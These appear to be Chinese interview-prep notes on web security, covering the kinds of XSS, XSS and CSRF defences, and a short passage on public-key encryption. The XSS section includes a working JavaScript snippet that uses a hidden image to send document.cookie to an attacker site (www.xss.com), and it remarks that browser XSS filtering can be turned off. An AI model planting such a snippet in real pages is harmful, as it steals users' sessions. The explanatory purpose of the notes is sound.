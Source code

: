 ### 安全相关问题

#### 什么是XSS／CSRF？怎样防止此类安全问题

XSS和CSRF都属于跨站攻击，XSS是实现CSRF诸多途径中的一条，但不是唯一一条

xss的本质是让对方浏览器执行你插入的js ，来获取cookie等信息；csrf是借用用户的身份，向服务器发送请求

XSS分为存储型和反射型：

- 存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，加入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie等
- 反射型XSS，非持久化，需要欺骗用户自己去点击链接才能触发XSS代码。发出请求时，XSS代码出现在URL中，作为输入提交到服务器端，服务器端解析后响应，XSS代码随响应内容一起传回给浏览器，最后浏览器解析执行XSS

**XSS防范**：

1. 客户端校验用户输入信息，只允许输入合法的值，其他一概过滤掉，防止客户端输入恶意的js代码被植入到HTML代码中，使得js代码得以执行

- 移除用户上传的DOM属性，如onerror等
- 移除用户上传的style节点，script节点，iframe节点等 2）对用户输入的代码标签进行转换（html encode） 3）对url中的参数进行过滤 4）对动态输出到页面的内容进行HTML编码 5）服务端对敏感的Cookie设置 httpOnly属性，使js脚本不能读取到cookie 6) CSP 即是 Content Security Policy

```javascript
var img = document.createElement('img');
img.src='http://www.xss.com?cookie='+document.cookie;
img.style.display='none';
document.getElementsByTagName('body')[0].appendChild(img);
```
这样就神不知鬼不觉的把当前用户的cookie发送给了我的恶意站点，我的恶意站点通过获取get参数就拿到了用户的cookie。当然我们可以通过这个方法拿到用户各种各样的数据。
目前很多浏览器都会自身对用户的输入进行判断，检测是否存在攻击字符，比如你上述提到的`<script>`标签，这段脚本很明显就是一段xss攻击向量，因此浏览器会对这段输入进行处理，不同的浏览器处理方式也不一样。可以在浏览器中将这个拦截关闭

#### 跨站请求伪造的过程与防范：

<http://www.imooc.com/article/13552>

过程：用户小明在你的网站A上面登录了，A返回了一个session ID（使用cookie存储）,小明的浏览器保持着A网站的登录状态，攻击者小强给小明发送了一个链接地址，小明打开了地址的时候，这个页面已经自动的对网站a发送了一个请求，通过使用小明的cookie信息，这样攻击者小强就可以随意更改小明在A上的信息。

1. 使用token：服务器随机产生tooken，然后以tooken为秘钥产生一段密文，把token和密文都随cookie交给前端，前端发起请求时把密文和token交给后端，后端对token和密文进行验证，看token能不能生成同样的密文，这样即使黑客拿到了token也无法拿到密文`http://www.weibo.cn?follow_uid=123&token=73ksdkfu102`
2. 使用验证码：每一个重要的post提交页面，使用一个验证码，因为第三方网站是无法获得验证码的
3. 检测http的头信息refer。Referer记录了请求的来源地址，服务器要做的是验证这个来源地址是否合法
4. 涉及敏感操作的请求改为POST请求

---

#### 你还知道其他的Web攻击吗？



---

#### 公钥加密和私钥加密。

  一般情况下是指私钥用于对数据进行签名，公钥用于对签名进行验证;
  HTTP网站在浏览器端用公钥加密敏感数据，然后在服务器端再用私钥解密。

---

- [Crypto (加密)](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#crypto)
- [TLS/SSL](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#tlsssl)
- [HTTPS](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#https)
- [ XSS](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#xss)
- [ CSRF](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#csrf)
- [中间人攻击](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#%E4%B8%AD%E9%97%B4%E4%BA%BA%E6%94%BB%E5%87%BB)
- [Sql/Nosql 注入](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#sqlnosql-%E6%B3%A8%E5%85%A5)


- 加密是如何保证用户密码的安全性? [[more\]](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#crypto)
- TLS 与 SSL 有什么区别? [[more\]](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#tlsssl)
- HTTPS 能否被劫持? [[more\]](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#https)
- XSS 攻击是什么? 有什么危害? [[more\]](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#xss)
- 过滤 Html 标签能否防止 XSS? 请列举不能的情况? [[more\]](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#xss)
- CSRF 是什么? 如何防范? [[more\]](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#csrf)
- 如何避免中间人攻击? [[more\]](https://github.com/ElemeFE/node-interview/blob/master/sections/zh-cn/security.md#%E4%B8%AD%E9%97%B4%E4%BA%BA%E6%94%BB%E5%87%BB)

---



